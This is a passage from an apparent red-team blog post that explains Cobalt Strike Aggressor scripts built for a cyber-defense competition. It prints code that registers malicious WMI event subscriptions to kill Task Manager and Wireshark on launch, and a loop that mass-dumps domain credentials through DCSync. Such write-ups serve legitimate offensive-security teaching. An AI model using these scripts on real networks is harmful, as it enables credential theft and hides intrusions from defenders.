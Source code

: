 ```bash
sub sysinternalkiller {
	bpowershell_import($1, script_resource("powerlurk.ps1"));
	bpowerpick($1, 'Register-MaliciousWmiEvent -EventName KillProc1 -PermanentCommand "powershell.exe -NoP -C `"Stop-Process -Id %ProcessId% -Force`"" -Trigger ProcessStart -ProcessName taskmgr.exe');
	bpowerpick($1, 'Register-MaliciousWmiEvent -EventName KillProc2 -PermanentCommand "powershell.exe -NoP -C `"Stop-Process -Id %ProcessId% -Force`"" -Trigger ProcessStart -ProcessName wireshark.exe');
---snipped---
}
```

Here's a demo of the script in action:


{% include youtubevideo.html id="WA4eWdyhb4M" description="Sysinternals Taskkiller Demo Video" %}

For more about WMI, check out the white paper Windows Management Instrumentation (WMI) Offense, Defense, and Forensics by William Ballenthin ([@williballenthin](https://twitter.com/williballenthin)), Matt Graeber ([@mattifestation](https://twitter.com/mattifestation)),
Claudiu Teodorescu ([@cteo13](https://twitter.com/cteo13)) and the blog series [Getting Started with WMI Weaponization](https://blog.netspi.com/getting-started-wmi-weaponization-part-1/) by Alexander Leary ([@0xbadjuju](https://twitter.com/0xbadjuju)).


## Mass DCSync

The next [script](https://github.com/bluscreenofjeff/AggressorScripts/blob/master/mass-dcsync.cna) is designed to perform DCSync en masse. In Cobalt Strike, you must specify one username per DCSync command, which is better tradecraft for a real-world engagement than mass dumping creds from a domain controller. Since CCDC is the wild west, why not throw caution to the wind and just extract everything?

The script uses Cobalt Strike's new [Custom Dialog API](https://www.cobaltstrike.com/aggressor-script/other.html) to create a dialog that prompts for the target's fully-qualified domain name, the domain shortname, and a file containing a line-separated list of usernames to DCSync from the domain controller.


{% include image.html file="/assets/prccdc2017/mass-dcsync.png" description="Mass DCSync Dialog" %}

The GUI callback lambda returns the output in `$3` as a hashtable. Here's the content of `$3` from this script:

```bash
%(userlist => '/path/to/userlist', fqdn => 'example.local', domain => 'EXAMPLE')
```

Using the provided data, we can build the rest of the script:

```bash
$handle = openf($3['userlist']);
@userlistdata = readAll($handle);
closef($handle);
foreach $bid (@bids){
	foreach $user (@userlistdata){
		bdcsync($bid, $3['$fqdn'], $3['domain'] . $+ . '\\' . $+ . $user);
	};
};
```
